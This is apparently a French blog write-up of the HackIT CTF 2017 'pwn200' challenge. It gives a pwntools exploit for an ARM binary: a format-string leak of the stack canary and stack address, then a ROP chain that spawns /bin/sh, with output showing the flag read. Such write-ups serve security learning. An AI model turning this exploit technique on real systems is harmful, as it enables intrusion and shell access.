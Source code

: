 ```yaml
---
layout: post
title: "HackIT CTF"
date: 27 Août 2017
comments: true
categories: wu
---
```

Le binaire presente les caractéristiques suivantes:
```
Filename                 pwn200
File format              ELF32
Architecture             arm
Endianess                little endian
Entry point              0x10370
Loadables segments       2
Sections                 31

NX bit                   enabled
SSP                      enabled
Relro                    unknown
RPATH                    unknown
RUNPATH                  unknown
PIE                      disabled
```
On observe tout d'abord une présence d'une faille de type format qui nous
permet de faire un dump de la pile. Cela permet de trouver d'une part le canari
(offset 517) et d'autre part de localiser la pile (l'offset 3 pointe vers
l'offset 5 de la pile). Le code suivant récupère ces deux informations:
```
p=remote(host,port)
p.recvuntil("> ")
p.sendline('%3$08x%517$08x')
b=p.recvuntil("> ")
adr_pile=int(b[0:8],16)-5*4
canari=int(b[8:16],16)
print '[+] pile ',hex(adr_pile)
print '[+] canari ',hex(canari)
```
On observe en suite un bufferoverflow. Le binaire étant en statique, on peut
faire un ROP développant un shell. Les gadgets sont
```
svc48lr=0x00053520 # svc #0 ; pop {r4, r5, r6, r7, r8, lr} ; bx lr
popr0=0x00070068 # pop {r0, lr} ; bx lr
popr1=0x00070590 # pop {r1, lr} ; bx lr
popr3=0x00010160 # pop {r3, lr} ; bx lr
popr45678=0x00011184 # pop {r4, r5, r6, r7, r8, lr} ; bx lr
popr47=0x0002a6f8 # pop {r4, r7, lr} ; bx lr
gadget=0x0004f17c # mov r2, r4 ; mov r1, r7 ; mov r0, r6 ; mov lr, pc ; bx r3
```
Le ROP lui même est classique faisant un execve("/bin/sh",0,0)
```
rop=""
offset=adr_pile+0x81c+4* 14
rop=rop+p32(0) # r4 (ira dans r2)
rop=rop+p32(adr_pile) # r11

rop=rop+p32(popr3) # pop {r3, lr} ; bx lr
rop=rop+p32(popr47) # pop {r4, r7, lr} ; bx lr -> dans r3

rop=rop+p32(popr45678) # pop {r4, r5, r6, r7, r8, lr} ; bx lr
rop=rop+p32(0) # r4 -> r2
rop=rop+p32(adr_pile) # r5
rop=rop+p32(offset) # r6 -> r0
rop=rop+p32(0) # r7 ira dans r1
rop=rop+p32(adr_pile) # r8
rop=rop+p32(gadget) # mov r2, r4 ; mov r1, r7 ; mov r0, r6 ; mov lr, pc ; bx r3  ---> là r2=0, r1=offset, r0 = offset

rop=rop+p32(adr_pile) # r4
rop=rop+p32(11) # r7
rop=rop+p32(svc48lr) # svc #0
rop=rop+"/bin/sh"+chr(0)

p.sendline(PAD+rop)
p.interactive()
```
avec un PAD de longueur 1024. On obtient le déroulement suivant:
```
[*] '/home/francois/BFF/beers4flags/writeups/2017/hackIT/pwn200/pwn200'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
[+] Opening connection to 165.227.98.55 on port 3333: Done
[+] pile  0xbef69458
[+] canari  0xf0406900

[*] Switching to interactive mode
$ cd home/pwn200
$ cat fla*
h4ck1t{Sarah_would_be_proud}
$ 
[*] Closed connection to 165.227.98.55 port 3333
```